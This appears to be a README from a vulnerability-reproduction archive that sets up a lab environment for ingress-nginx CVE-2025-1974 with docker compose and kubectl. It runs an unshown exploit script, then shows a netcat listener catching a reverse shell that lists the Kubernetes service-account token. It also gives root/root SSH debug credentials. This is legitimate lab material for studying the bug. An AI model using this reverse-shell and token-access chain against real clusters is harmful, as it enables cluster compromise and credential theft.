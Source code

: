 # ingress-nginx CVE-2025-1974

* dqd:
  * ssst0n3/docker_archive:cve-2025-1974 -> ssst0n3/docker_archive:cve-2025-1974_v0.1.0
  * ssst0n3/docker_archive:cve-2025-1974_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2025-1974 -> ssst0n3/docker_archive:ctr_cve-2025-1974_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2025-1974_v0.1.0

## usage

```shell
$ cd vul/CVE-2025-1974
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ kubectl --kubeconfig=kubeconfig get pods -n ingress-nginx                                             
NAME                                       READY   STATUS      RESTARTS      AGE
ingress-nginx-admission-create-7dj2s       0/1     Completed   0             4h37m
ingress-nginx-admission-patch-jzwpx        0/1     Completed   0             4h37m
ingress-nginx-controller-9456df685-9rlkg   1/1     Running     1 (43m ago)   4h37m
$ kubectl --kubeconfig=kubeconfig get services -n ingress-nginx
NAME                                 TYPE           CLUSTER-IP      EXTERNAL-IP   PORT(S)                      AGE
ingress-nginx-controller             LoadBalancer   10.96.110.135   <pending>     80:30534/TCP,443:30705/TCP   4h37m
ingress-nginx-controller-admission   ClusterIP      10.96.70.181    <none>        443/TCP                      4h37m
$ kubectl --kubeconfig=kubeconfig describe service -n ingress-nginx ingress-nginx-controller-admission  
Name:              ingress-nginx-controller-admission
Namespace:         ingress-nginx
Labels:            app.kubernetes.io/component=controller
                   app.kubernetes.io/instance=ingress-nginx
                   app.kubernetes.io/name=ingress-nginx
                   app.kubernetes.io/part-of=ingress-nginx
                   app.kubernetes.io/version=1.11.3
Annotations:       <none>
Selector:          app.kubernetes.io/component=controller,app.kubernetes.io/instance=ingress-nginx,app.kubernetes.io/name=ingress-nginx
Type:              ClusterIP
IP Family Policy:  SingleStack
IP Families:       IPv4
IP:                10.96.70.181
IPs:               10.96.70.181
Port:              https-webhook  443/TCP
TargetPort:        webhook/TCP
Endpoints:         192.168.229.144:8443
Session Affinity:  None
Events:            <none>
```

## reproduce

```shell
kubectl --kubeconfig=kubeconfig port-forward -n ingress-nginx svc/ingress-nginx-controller 8080:80 &
kubectl --kubeconfig=kubeconfig port-forward -n ingress-nginx svc/ingress-nginx-controller-admission 8443:443 &
```

```shell
python3 exploit.py
```

```shell
$ nc -nlvp 2333
listening on [any] 2333 ...
connect to [172.17.0.1] from (UNKNOWN) [172.23.0.2] 52236
ls -lah /var/run/secrets/kubernetes.io/serviceaccount/token
lrwxrwxrwx    1 root     root          12 Mar 29 03:53 /var/run/secrets/kubernetes.io/serviceaccount/token -> ..data/token
```

## build

```shell
make all DIR=vul/cve-2025-1974
```


### for developers

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2025-1974_v0.1.0
...
RUN --security=insecure ["/sbin/init", "--log-target=kmsg"]
```

* use `dmesg -w` to see build logs.
* use systemd service to execute commands
* ssh root/root 10.0.2.17 to debug
